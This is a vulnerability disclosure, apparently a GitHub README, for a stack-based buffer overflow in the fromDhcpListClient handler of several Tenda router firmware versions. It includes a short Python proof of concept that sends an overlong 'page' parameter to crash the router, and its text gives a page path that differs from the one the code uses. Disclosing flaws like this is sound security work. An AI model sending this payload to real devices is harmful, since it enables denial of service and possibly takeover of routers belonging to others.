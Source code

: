 # Tenda Router Vulnerability on fromDhcpListClient function

This vulnerability lies in the `/goform/fromDhcpListClient` page which influences the lastest version of Tenda Router F1202,FH1202. (The latest version is [F1202V1.0BR_V1.2.0.20(408)](https://www.tenda.com.cn/download/detail-2671.html))[FH1202_V1.2.0.19_EN](https://www.tendacn.com/us/download/detail-2693.html) and influence AC10V1.0,AC1206,AC6V2.0,AC7V1.0,AC5V1.0,AC9V3.0

## Vulnerability Description

There is a **stack-based buffer overflow** vulnerability in function `page`.

In function `fromDhcpListClient` it reads 1 user provided parameters `page` into `var`, and the variable is passed into function `sprintf` without any length check, which may overflow the stack-based buffer `v7`.
![Vulnerability Function](./vuln.png)

So by requesting the page `/goform/frmL7ProtForm`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.

## PoC

```python
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/fromDhcpListClient?"
url += "page=" + "s" * 0x200
url += "&LISTLEN=0"

response = requests.get(url)
```

## Timeline

* 2022-06-29: Report to CVE & CNVD;


## Acknowledge
